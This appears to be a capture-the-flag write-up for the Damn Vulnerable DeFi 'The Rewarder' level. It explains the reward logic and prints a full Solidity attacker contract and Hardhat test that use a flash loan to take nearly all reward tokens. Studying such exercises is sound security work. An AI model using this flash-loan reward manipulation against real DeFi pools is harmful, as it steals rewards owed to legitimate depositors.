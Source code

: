 # The Rewarder

## analyse

the whole business as the following picture:

![](https://moe.photo/images/2023/02/24/TheRewardPool-16771693237012.png)

### test file analyse

the the-rewarder.challenge.js 's code translate to words: 

> *There’s a pool* `TheRewarderPool`*offering rewards in tokens* `RewardToken`*every 5 days for those who deposit their DVT tokens into it.*
> *Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!*
> *You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.*
>
> in this level, u can pass the level by flashloan!

### contract analyse

- RewardToken：it is a normal ERC20 token
- AccountingToken：it is an ERC20 token. It is used with The RewarderPool to better managing and controling the rewards.
- FlashLoanerPool：a flashloan pool, we can flashloan some money to do something bad
- TheRewarderPool：deposit, withdraw, allocate AccToken and RewardToken. It is the core Contract.

### business analyse

From the picture I created, we can know the whole logic of this level:

- DVT is a nornal ERC20 token, while FlashLoanerPool privides us to flashloan
- RewardToken is the stuff we need to get. It is allocated by the TheRewarderPool, while TheRewardPool allocates RewardToken by the scale of the AccoutingToken
  - everyone deposits his DVT to RewarderPool will get AccountingToken
  - every 5 days, TheRewarderPool will give every participant some RewardToken:  **one's contribute AccToken / all AccToken**
  - in this formula and logic, the more u deposit, the more u get AccToken, the more u get RewardToken
- So we can flashloan a lot of DVT to deposit, we will get the whole RewardToken(100). Why it is 100 ? they four also deposts 100 DVT to the TheRewarderPool. This is the reason: we deposit 1 million tokens DVT(the whole DVT in flashloanPool). Due to our token balance and thus our share of the overall tokens in the reward pool being so high, the integer division results in all other accounts receiving 0 rewards.

this is the receiveFlashLoan implementation, I have note the attack logic between the code.

The solution is the following:

1. Wait 5 days and take a flash loan of DVT from the `FlashLoanerPool`,
2. Deposit to the `RewarderPool`,
3.  Call `distributeRewards` to get `RewardToken`,
4. Withdraw DVT
5. Repay the loan.
6. Send `RewardToken` to the attacker

```solidity
function receiveFlashLoan(uint256 amount) external {
        // Approve and deposit DVT to get reward tokens
        // Approves and deposits the same amount of DVT to TheRewarderPool.
        DVT.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);

        // Withdraw DVT and pay flash loan back
        // Withdraws the deposited amount to pay back the flash loan.
        rewarderPool.withdraw(amount);
        DVT.transfer(address(flashPool), amount);

        //The withdrawRewards() function transfers all the reward token balance of RewarderAttacker to our attacker address.
        rewardToken.transfer(owner, rewardToken.balanceOf(address(this)));
    }
```

and in the test file, I have note the attack logic between the code.

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    // Travel through time (5 days)
	await ethers.provider.send('evm_increaseTime', [5 * 24 * 60 * 60])

	// Deploy evil contract
	const RewarderAttacker = await ethers.getContractFactory('RewarderAttacker', attacker)
	this.rewarderAttacker = await RewarderAttacker.deploy(
		this.flashLoanPool.address,
		this.rewarderPool.address,
		this.liquidityToken.address,
		this.rewardToken.address
	)

	console.log(
		'Attacker reward token balance before attack: ',
		String(await this.rewardToken.balanceOf(attacker.address))
	)

	// Attack
	await this.rewarderAttacker.connect(attacker).attack(TOKENS_IN_LENDER_POOL)

	console.log(
		'Attacker reward token balance after attack: ',
		String(await this.rewardToken.balanceOf(attacker.address))
	)
    });
```

## solution

- RewarderAttacker

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../the-rewarder/FlashLoanerPool.sol";
import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/RewardToken.sol";
import "../DamnValuableToken.sol";

contract RewarderAttacker {
    FlashLoanerPool immutable flashPool;
    TheRewarderPool immutable rewarderPool;
    DamnValuableToken immutable DVT;
    RewardToken immutable rewardToken;
    address immutable owner;

    constructor(
        address _flashPool,
        address _rewarderPool,
        address _dvt,
        address _rewardToken
    ) {
        flashPool = FlashLoanerPool(_flashPool);
        rewarderPool = TheRewarderPool(_rewarderPool);
        DVT = DamnValuableToken(_dvt);
        rewardToken = RewardToken(_rewardToken);
        owner = msg.sender;
    }

    function attack(uint256 amount) external {
        require(owner == msg.sender);
        flashPool.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external {
        // Approve and deposit DVT to get reward tokens
        // Approves and deposits the same amount of DVT to TheRewarderPool.
        DVT.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);

        // Withdraw DVT and pay flash loan back
        // Withdraws the deposited amount to pay back the flash loan.
        rewarderPool.withdraw(amount);
        DVT.transfer(address(flashPool), amount);

        //The withdrawRewards() function transfers all the reward token balance of RewarderAttacker to our attacker address.
        rewardToken.transfer(owner, rewardToken.balanceOf(address(this)));
    }
}
```

- test

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    // Travel through time (5 days)
	await ethers.provider.send('evm_increaseTime', [5 * 24 * 60 * 60])

	// Deploy evil contract
	const RewarderAttacker = await ethers.getContractFactory('RewarderAttacker', attacker)
	this.rewarderAttacker = await RewarderAttacker.deploy(
		this.flashLoanPool.address,
		this.rewarderPool.address,
		this.liquidityToken.address,
		this.rewardToken.address
	)

	console.log(
		'Attacker reward token balance before attack: ',
		String(await this.rewardToken.balanceOf(attacker.address))
	)

	// Attack and withdraw
	await this.rewarderAttacker.connect(attacker).attack(TOKENS_IN_LENDER_POOL)

	console.log(
		'Attacker reward token balance after attack: ',
		String(await this.rewardToken.balanceOf(attacker.address))
	)
    });
```













































































